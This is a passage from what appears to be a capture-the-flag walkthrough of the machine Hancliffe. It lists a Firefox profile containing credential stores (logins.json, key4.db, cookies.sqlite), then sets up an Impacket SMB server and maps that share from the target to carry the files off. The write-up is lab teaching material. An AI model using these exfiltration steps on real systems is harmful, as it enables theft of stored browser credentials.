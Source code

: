 ```
-a----         6/26/2021  10:17 PM         229376 content-prefs.sqlite
-a----         6/26/2021  10:17 PM          98304 cookies.sqlite
-a----         6/26/2021  10:29 PM           1123 extension-preferences.json
-a----         6/26/2021  10:31 PM          38223 extensions.json
-a----         6/26/2021  10:32 PM        5242880 favicons.sqlite
-a----         6/26/2021  10:17 PM         262144 formhistory.sqlite
-a----         6/26/2021  10:17 PM            683 handlers.json
-a----         6/26/2021  10:20 PM         294912 key4.db
-a----         6/26/2021  10:21 PM            674 logins.json
-a----         6/26/2021  10:17 PM              0 parent.lock
-a----         6/26/2021  10:32 PM          98304 permissions.sqlite
-a----         6/26/2021  10:17 PM            505 pkcs11.txt
-a----         6/26/2021  10:32 PM        5242880 places.sqlite
-a----         6/26/2021  10:32 PM          11512 prefs.js
-a----         6/26/2021  10:17 PM            180 search.json.mozlz4
-a----         6/26/2021  10:32 PM            288 sessionCheckpoints.json
-a----         6/26/2021  10:32 PM           2566 sessionstore.jsonlz4
-a----         6/26/2021  10:17 PM             18 shield-preference-experiments.json
-a----         6/26/2021  10:32 PM            730 SiteSecurityServiceState.txt
-a----         6/26/2021  10:32 PM           4096 storage.sqlite
-a----         6/26/2021  10:17 PM             50 times.json
-a----         6/26/2021  10:32 PM          98304 webappsstore.sqlite
-a----         6/26/2021  10:32 PM            220 xulstore.json   

```

#### Exfil

To really look through this profile, I’ll want to copy all of files back to my VM. I’ll start a SMB server with Python:

```

oxdf@hacky$ smbserver.py s . -username oxdf -password oxdf -smb2support
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

For modern versions of Windows, I won’t be able to connect without a username and password, and I’ll need SMBv2 support.

I’ll connect to the share from Hancliffe:

```

PS C:\> net use \\10.10.14.6\s /u:oxdf oxdf                
The command completed successfully.

```
